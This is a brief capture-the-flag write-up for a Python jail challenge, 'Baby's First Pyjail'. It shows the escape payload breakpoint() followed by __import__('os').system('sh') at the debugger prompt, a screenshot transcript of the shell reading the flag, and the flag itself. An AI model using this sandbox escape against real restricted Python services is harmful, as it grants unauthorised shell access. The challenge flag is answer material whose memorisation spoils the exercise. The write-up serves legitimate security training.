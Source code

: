 # Baby's First Pyjail
> @windex told me that jails should be sourceless. So no source for you.

## About the Challenge
We got a server to connect and we can execute a python code there


[Image extracted text: >>>
print(1)]


## How to Solve?
To spawn a shell, I used this command which a combination of `breakpoint()` and executing `system()` command

```
>>> breakpoint()
--Return--
> <string>(1)<module>()->None
(Pdb) __import__("os").system("sh")
```


[Image extracted text: >>>
breakpoint ( )
'~Return--
<string> (1) <module> ( )->None
(Pdb)
import__("os" ) .system( "sh" )
1s
chal.py
cat
uoftctf{vou got
out
of
jail
free}
flag
flag]


```
uoftctf{you_got_out_of_jail_free}
```